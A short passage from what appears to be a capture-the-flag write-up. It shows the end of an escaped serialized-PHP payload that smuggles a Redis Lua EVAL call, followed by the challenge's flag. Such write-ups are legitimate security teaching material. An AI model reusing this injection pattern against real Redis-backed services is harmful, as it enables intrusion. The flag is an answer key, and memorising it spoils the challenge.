";s:3:\\\\\\\\\\\\\"226\\\\\\\\\\\\\";}}\",\"headers\":[]}\";'); return ARGV[1];" 0
```

We thus obtain the flag : `HTB{7r1p_t0_Da_r3d1sl4nD_pr0xy_p455_y0u_1n!}`